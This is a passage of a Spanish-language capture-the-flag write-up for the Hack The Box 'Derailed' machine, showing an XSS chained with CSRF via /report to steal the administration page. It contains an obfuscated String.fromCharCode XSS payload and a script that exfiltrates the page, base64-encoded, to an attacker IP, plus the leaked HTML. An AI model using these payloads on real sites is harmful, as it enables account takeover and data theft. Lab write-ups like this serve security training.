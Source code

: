 Ahora solo tenemos que explotar el XSS 

## XSS para /administrator

Para hacer el XSS, tenemos que explotar también un CSRF via el /report, y así robar la página de administrador, creamos un archivo javascript en nuestra máquina y lo ponemos en nuestro servidor HTTP

```js
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("GET", "http://10.10.14.226/callback", false);
xmlHttp.send(null);
```

Esto no funciona, asi que vamos a traducir el payload con Char Coding, el payload quedaría asi.

```html
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<select<style/><img src='http://10.10.14.29/imgfail' onerror="eval(String.fromCharCode(118,97,114,32,120,109,108,72,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,109,108,72,116,116,112,46,111,112,101,110,40,34,71,69,84,34,44,32,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,50,50,54,47,99,97,108,108,98,97,99,107,34,44,32,102,97,108,115,101,41,59,10,120,109,108,72,116,116,112,46,115,101,110,100,40,110,117,108,108,41,59))">
```

Y el payload funciona, conseguimos un callback a nuestro servidor python

![](/assets/img/HTB/Derailed/xss1.png)

Después de investigar por HackTricks, usaremos este script para robar la página de administración de la web explotando también el CSRF via /report, el payload sería el siguiente:

```js
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.226/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

Al enviar el payload, nos devuelve la página web encodeada en base64

```html
<!DOCTYPE html>
<html>
<head>
  <title>derailed.htb</title>
  <meta name="viewport" content="width=device-width,initial-scale=1">
  <meta charset="utf-8"/>
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no"/>

  <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="7__FwLHnDberOzsDGM4JxR4eCmp3dqyr8oGwEKFlZzbmHjj5aBFp2JrSbcSJB77Pvg1eEIncUqSxPNSX-7b7Hw" />
  

```